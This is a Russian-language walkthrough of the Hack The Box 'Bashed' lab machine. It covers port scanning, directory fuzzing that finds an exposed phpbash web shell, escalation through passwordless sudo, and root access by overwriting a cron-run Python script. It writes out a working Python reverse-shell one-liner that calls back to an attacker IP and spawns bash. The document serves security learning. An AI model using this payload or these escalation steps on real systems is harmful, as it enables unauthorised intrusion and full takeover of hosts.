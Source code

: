 # Bashed (Linux, Easy)

<figure><img src="../../../../.gitbook/assets/Pasted image 20240902122737.png" alt=""><figcaption></figcaption></figure>

## Сводка

***

При сканировании `Nmap` выделяется только `80` `HTTP`-порт. С помощью фаззинга веб-сервера можно обнаружить консоль, написанную на языке программирования `PHP`. Первоначальное повышение привилегий реализуется через мисконфиг прав пользователей (`sudo -l`), а получение прав суперпользователя через небезопасную задачу `Cron`.

## Разведка

***

Запустим `Nmap`, чтобы просканировать открытые порты на удалённом хосте:

```shell
nmap -sC -sV -oN nmap.out 10.10.10.68
```

```shell
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Результат сканирования показал, что открыт только 80 `HTTP`-порт, с которым можно взаимодействовать через веб-браузер:



<figure><img src="../../../../.gitbook/assets/Pasted image 20240902110218.png" alt=""><figcaption></figcaption></figure>



[На данной странице](http://10.10.10.68/single.html) есть пост 4 декабря 2017 года с повествованием о таком инструменте, как `phpbash`:



<figure><img src="../../../../.gitbook/assets/Pasted image 20240902110745.png" alt=""><figcaption></figcaption></figure>



На скриншоте указан следующий путь к `php`-скрипту - `/uploads/phpbash.php`:



<figure><img src="../../../../.gitbook/assets/Pasted image 20240902110801 (1).png" alt=""><figcaption></figcaption></figure>



Можно предположить, что такой же скрипт может лежать по аналогичному пути на удалённом хосте:



<figure><img src="../../../../.gitbook/assets/Pasted image 20240902110819.png" alt=""><figcaption></figcaption></figure>



Теория провалилась, следовательно, нужно копать дальше. Запустим фаззинг с помощью инструмента [Gobuster](https://github.com/OJ/gobuster) и словаря из [SecLists](https://github.com/danielmiessler/SecLists):

```shell
gobuster dir -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.68/ -x php

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 290]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/config.php           (Status: 200) [Size: 0]
```

Из результата фаззинга можно найти интересный каталог `/dev`:



<figure><img src="../../../../.gitbook/assets/Pasted image 20240902111056.png" alt=""><figcaption></figcaption></figure>



В нём и лежал `php`-скрипт позволяющий выполнять любые действия с помощью консольных команд на удалённой системе от лица пользователя веб-сервера `www-data`:



<figure><img src="../../../../.gitbook/assets/Pasted image 20240902111115.png" alt=""><figcaption></figcaption></figure>



## Первоначальный доступ

***

Работать в веб-интерфейсе не удобно, поэтому сделаем терминальный шелл. С этим делом может помочь [revshells.com](https://www.revshells.com/), где нужно указать только `IP`-адрес и порт, а сервис уже сам подготовит полезную нагрузку:

<figure><img src="../../../../.gitbook/assets/Pasted image 20240902111732.png" alt=""><figcaption></figcaption></figure>

Пэйлоад с `Nc` (`Netcat`) не сработал, поэтому используем `Python`, так как на удалённом хосте есть интерпретатор этого языка программирования. Полезную нагрузку следует ввести в веб-терминал, который располагается по следующему пути `/dev/phpbash.php`. Получаем шелл после того, как поставим листенер с помощью `Rlwrap`, тулзы, которая обеспечит стабильность в работе, и `Netcat`:

<figure><img src="../../../../.gitbook/assets/Pasted image 20240903102842.png" alt=""><figcaption></figcaption></figure>

## Повышение привилегий до прав пользователя

***

После получения удалённого доступа `www-data`, нужно проверить есть ли возможность у пользователя веб-сервера запускать какие-либо команды от лица других пользователей:

```shell
sudo -l
```

<figure><img src="../../../../.gitbook/assets/Pasted image 20240902112148.png" alt=""><figcaption></figcaption></figure>

Абсолютно любую команду без ввода пароля можно запустить от лица пользователя `scriptmanager`:

```shell
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Повысим привилегии через `sudo`:

```shell
sudo -u scriptmanager bash
```

<figure><img src="../../../../.gitbook/assets/Pasted image 20240902112220.png" alt=""><figcaption></figcaption></figure>

## Повышение привилегий до прав суперпользователя

***

В корне файловой системы можно обнаружить каталог `scripts`, к которому имеет доступ пользователь `scriptmanager`:



<figure><img src="../../../../.gitbook/assets/Pasted image 20240902112325.png" alt=""><figcaption></figcaption></figure>



В нём присутствует `Python`-скрипт, который записывает в файл `test.txt` строку `"testing 123!"`:



<figure><img src="../../../../.gitbook/assets/Pasted image 20240902112545.png" alt=""><figcaption></figcaption></figure>



Можно заметить, что каждую минуту файл `test.txt` обновляется:



<figure><img src="../../../../.gitbook/assets/Pasted image 20240902112450 (1).png" alt=""><figcaption></figcaption></figure>



Сам файл `test.txt` имеет владельца и группу пользователей `root`. Это наводит на мысль о том, что в системе работает `Cron`, который каждую минуту запускает `test.py` с правами суперпользователя. Важно отметить, что пользователь `scriptmanager` может вносить изменения в скрипт. Таким образом, можно повысить свои привилегии, внедрив вредоносный `Python`-код. Воспользуемся ещё раз сервисом [revshells](https://www.revshells.com/), изменив порт, например, на `9899`:



<figure><img src="../../../../.gitbook/assets/Pasted image 20240902113037.png" alt=""><figcaption></figcaption></figure>



Поставим листенер с помощью `Rlwrap` и `Netcat`, затем перезапишем файл `test.py`:

```shell
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.3",9899));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' > test.py
```



<figure><img src="../../../../.gitbook/assets/Pasted image 20240902113058.png" alt=""><figcaption></figcaption></figure>



Получим шелл от лица суперпользователя:



<figure><img src="../../../../.gitbook/assets/Pasted image 20240902113132.png" alt=""><figcaption></figcaption></figure>

